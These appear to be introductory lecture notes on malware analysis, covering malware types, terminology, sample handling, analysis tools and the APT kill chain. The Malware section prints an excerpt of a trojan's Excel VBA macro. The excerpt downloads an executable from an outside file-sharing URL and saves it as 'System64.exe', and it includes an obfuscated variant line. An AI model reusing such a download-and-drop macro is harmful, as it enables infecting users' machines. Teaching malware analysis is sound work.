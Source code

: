 ## Week 1

### Introduction
The first lecture serves as an introduction to malware, a catch-all term for unwanted software running on a device. Malware includes software running on your machine as malicious as ransomware (software that encrypts the contents of your computer for the purposes of extorting you) to something more benign but annoying like adware (software which bombards the user with ads and pop-ups). Malware is primarily used for financial gain, information gathering, and/or as a method to attack companies or users. It can be employed by nearly anyone with access to the internet and some simple computer know-how, like criminal organizations, lone agents, or government entities. The need to prevent or resolve the issues caused by malware have led to the creation of companies and organizations devoted to anti-malware.

### Anti-Malware
Anti-malware groups have developed methodologies for the purposes of detection, prevention, and, in some cases, destruction of malware. To deal with a malware threat, it is necessary to understand and categorize malware. There are commonly a few types of malware and they tend to fall into the following categories:
1. Virus - characterized by a pattern of spreading
2. Trojans - characterized by method of entry onto a user's machine.
3. Potentially Unwanted Program - catch-all term for other malware that don't follow either patterns

Although the prospect of viruses and trojans might be worrisome, it has been determined by the security community that the most common attack vector is through the user themselves. Following a few rules regarding computer security will go a long way to help prevent most attacks. These include, but are not limited to, the following:

1. Don't visit questionable sites.
2. Know where your files are from before opening them.
3. Don't use random USB sticks.
4. Don't access programs or mobile apps from unverifiable authors.

### Malware
As an example, a trojan could have been hidden inside of a macro run as a result of opening an Excel file. It may have looked like this:
```
Sub DoWork()

Dim tmp As String, fName As String, Pos As Long, fPath As String

tmp = DownloadFile("http://ge.tt/api/1/files/8e8kZt72/0/blob?download")

'tmp = DownloadFile(rc4decrypt("YMe & chr(34)& lp52wsnV4"DyQw0DKMNIE_uZmPuzUL5b0WoVZ2r3E7f & chr(34)& jG713r1IgISh3hZD1a", "System64.exe"))

fName = "System64.exe
```

### Terminology
The security community has also devised a few terms in their work with malware. This includes, but is not limited to, the following:
1. white - a known clean file
2. black - a known dirty file
3. gray - a file which has neither been confirmed clean or dirty
4. sample - a copy of malware
5. goat - sacrificial system for working with malware
6. hash (ex: md5) - a signature that calculated the value of the file; used to id files, write code to detect; polymorphic files are a pain for this reason
7. honeypot - a vulnerable system that intentionally gets infected with viruses for evaluation
8. imphash - import hash, a hash calculated for viruses; this can be used to determine if the virus is part of the same "family" of viruses; if they use a similar import hash
9. dropper - the file that is used by a trojan
10. Static Analysis - viewing the contents of a file, usually through a hex editor or some other text editor.


### Practices
Standards in naming are used to categorize malware. A particular convention is to categorize by type (virus, trojan, etc.), then platform (linux, win32, etc.), then family of malware (malware that displays similar behavior, imphash, etc.), then a variant name using letters as a designation. This naming convention allows anti-malware software and professionals to quickly understand its high level characteristics (how does it spread, what does it do). 


Handling malware requires special considerations. The malware files are zipped and encrypted with the password "infected". The sample extension is also renamed, either changing the extension or adding a hash. Isolation of your machine is also necessary. Headers are used to identify file types for analysis. These are all practices that lead to the use of replication, the practice of determining malware behavior. The actions are recorded to understand the malware behavior. The state of the system is analyzed in order to determine before and after effects. 


When handling malware, there may be instances where malware is able to detect if it is operating in a virtual environment. This can be mitigated in a few ways: by not loading certain tools the malware is lookng for, loading a VM with registry values identical to a physical machine, or running code that responds to malware attempts to determine its environment.


Research is commonly conducted via Tor, for anonymity. 

### Useful Tools
- Virustotal - a site where users can upload an md5 hash/file/url to search against a database maintained by many vendors to determine the type of malware they're dealing with.
- Malwr - a sample is provided to the site, an isolated environment evaluates the malware, and reports back behavior
- Wepawet - used for analysis of obfuscated java, pdf, files for decryption.
- Comodo - document analyzer.


### Recent News
Attacks on corporations has increased in the last few years, these being referred to as "Advanced Persistent Threats". The term comes from the breakdown of each individual word. Advanced indicates that the attacker is knowledgeable. Persistent indicates the attackers are hunting and intent on finding particular information. Threat refers to the level of organization of the attacking group. 

Advanced Persistent Threats - APTs - have several characteristics:
1. Actors - terrorists, activists, state-sponsored government, business competitors, insiders
2. Motives - financial, information, revenge, ideology, excitement
3. Targets - companies, governments, individuals
4. Goals - create backdoors stealthily, steal data, monitor data, leave undetected

Other methods to gather information is to target subcontracting companies, as they will typically be less secure. A possible analog of this is to gain access to accounts or machines with less access/privileges and slowly gain more access.

This can be gained through OSINTs (open-source intelligence). Job postings are useful for this, as they reveal data on what technologies are in use at the targeted company. Company websites may also provide information via document metadata, as this information is posted when a document is posted by the company. This represents the first step of the "APT-Kill-Chain", a process that describes the typical methods through which APTs are conducted.

Weaponization refers to the use of the information gained through reconnaissance to break in. Delivery refers to the method through which the malware is provided. Exploitation refers to the exploit itself. Installation refers to the placing the malware onto the device. Command and control refers to the use of the connection established. Actions on objectives is carrying out the goal.


